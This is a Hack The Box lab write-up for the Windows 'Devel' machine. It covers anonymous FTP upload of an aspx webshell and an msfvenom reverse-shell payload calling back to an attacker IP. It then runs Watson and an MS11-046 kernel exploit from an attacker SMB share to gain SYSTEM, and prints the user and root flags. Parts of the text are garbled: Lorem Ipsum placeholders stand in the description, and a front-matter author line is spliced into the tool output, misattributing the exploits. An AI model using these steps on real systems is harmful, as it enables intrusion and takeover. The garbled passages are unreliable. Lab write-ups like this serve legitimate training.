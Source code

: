 ```yaml
---
title: Devel - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-16
image: images/devel_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/devel_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/devel]# nmap -Pn -n -sCV 10.10.10.5 --open                                                                         (master✱)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 03-18-17  01:06AM       <DIR>          aspnet_client
    | 03-17-17  04:37PM                  689 iisstart.htm
    |_03-17-17  04:37PM               184946 welcome.png
    | ftp-syst:
    |_  SYST: Windows_NT
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: IIS7
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   DIRB:
   ==> DIRECTORY: http://10.10.10.5/aspnet_client/

   NIKTO:
   + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST


2. The FTP server is open for anonymous login, let see what we can do there.

  [root:/git/htb/devel]# ftp  10.10.10.5                                                                                            (master✱)
    Connected to 10.10.10.5.
    220 Microsoft FTP Service
    Name (10.10.10.5:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ?
      Commands may be abbreviated.  Commands are:

      !		dir		mdelete		qc		site
      $		disconnect	mdir		sendport	size
      account		exit		mget		put		status
      append		form		mkdir		pwd		struct
      ascii		get		mls		quit		system
      bell		glob		mode		quote		sunique
      binary		hash		modtime		recv		tenex
      bye		help		mput		reget		tick
      case		idle		newer		rstatus		trace
      cd		image		nmap		rhelp		type
      cdup		ipany		nlist		rename		user
      chmod		ipv4		ntrans		reset		umask
      close		ipv6		open		restart		verbose
      cr		lcd		prompt		rmdir		?
      delete		ls		passive		runique
      debug		macdef		proxy		send

   We have the option to 'put' (upload) files to the ftp, and looking around it seems like we are in webroot.
   Lets upload a webshell and browse to it. Since it's not a .php-server, lets upload a .aspx-shell.

   ftp> put aspxshell.aspx
    local: aspxshell.aspx remote: aspxshell.aspx
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    5273 bytes sent in 0.00 secs (22.0558 MB/s)

   Go to http://10.10.10.5/aspxshell.aspx to enumerate the box further.

   > whoami
     iis apppool\web


3. Instead of looking around in a webshell, lets create a reverse aspx payload and upload it to the box.

    [root:/git/htb/devel]# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 -f aspx > rev.aspx                      (master✱)
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: x86 from the payload
      No encoder specified, outputting raw payload
      Payload size: 324 bytes
      Final size of aspx file: 2721 bytes

   Browse to http://10.10.10.5/rev.aspx to trigger the rev-shell.

    [root:/git/htb/devel]# nc -lvnp 4488                                                                                              (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.5] 49158
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      c:\windows\system32\inetsrv>whoami
        iis apppool\web

  I can't find any vulnerabilities by just looking around. Watson is a Windows exploit suggester that we can run from a locally
  hosted SMB server. Download pre-compiled Watson and execute it on the victim, through your SMB-server.

  [root:/srv/pub-share]# service smbd start
  [root:/srv/pub-share]# cp /opt/winPE/binaries/watson/WatsonNet3.5AnyCPU.exe .

  c:\inetpub\wwwroot>\\10.10.14.10\pub-share\WatsonNet3.5AnyCPU.exe
      __    __      _
     / / /\ \ \__ _| |_ ___  ___  _ __
     \ \/  \/ / _` | __/ __|/ _ \| '_ \
      \  /\  / (_| | |_\__ \ (_) | | | |
       \/  \/ \__,_|\__|___/\___/|_| |_|

                               v0.1

                      Sherlock sucks...
                       @_RastaMouse

     [*] OS Build number: 7600
     [*] CPU Address Width: 32
     [*] Process IntPtr Size: 4
     [*] Using Windows path: C:\WINDOWS\System32

      [*] Appears vulnerable to MS10-073
       [>] author: "0xPThree"
description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
       [>] Exploit: https://www.exploit-db.com/exploits/36327/
       [>] Notes: None.

      [*] Appears vulnerable to MS10-092
       [>] author: "0xPThree"
description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision, an attacker can execute arbitrary commands with SYSTEM privileges.
       [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
       [>] Notes: None.

      [*] Appears vulnerable to MS11-046
       [>] author: "0xPThree"
description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges.
       [>] Exploit: https://www.exploit-db.com/exploits/40564/
       [>] Notes: None.

      [*] Appears vulnerable to MS12-042
       [>] author: "0xPThree"
description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in kernel mode.
       [>] Exploit: https://www.exploit-db.com/exploits/20861/
       [>] Notes: None.

      [*] Appears vulnerable to MS13-005
       [>] author: "0xPThree"
description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
       [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
       [>] Notes: None.

     [*] Finished. Found 5 vulns :)


4. We are presented with various vulnerabilities, MS11-046 sounds great as it "allows local users to elevate privileges" which is
   exatly what we want. Upload the malicious .exe to your local SMB server and execute it on the remove host.

   [root:/srv/pub-share]# cp /opt/windows-kernel-exploits/MS11-046/ms11-046.exe .
   [root:/srv/pub-share]# chmod +x ms11-046.exe

   c:\inetpub\wwwroot>\\10.10.14.10\pub-share\ms11-046.exe
    \\10.10.14.10\pub-share\ms11-046.exe

    c:\Windows\System32>whoami
      nt authority\system

    C:\Users\babis\Desktop>type user.txt.txt
      9ecdd6a3aedf24b41562fea70f4cb3e8

    C:\Users\Administrator\Desktop>type root.txt
      e621a0b5041708797c4fc4728bc72b4b


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Pre-compiled Watson Binaries:
  https://github.com/carlospolop/winPE

Windows Kernel Exploits:
  https://github.com/SecWiki/windows-kernel-exploits
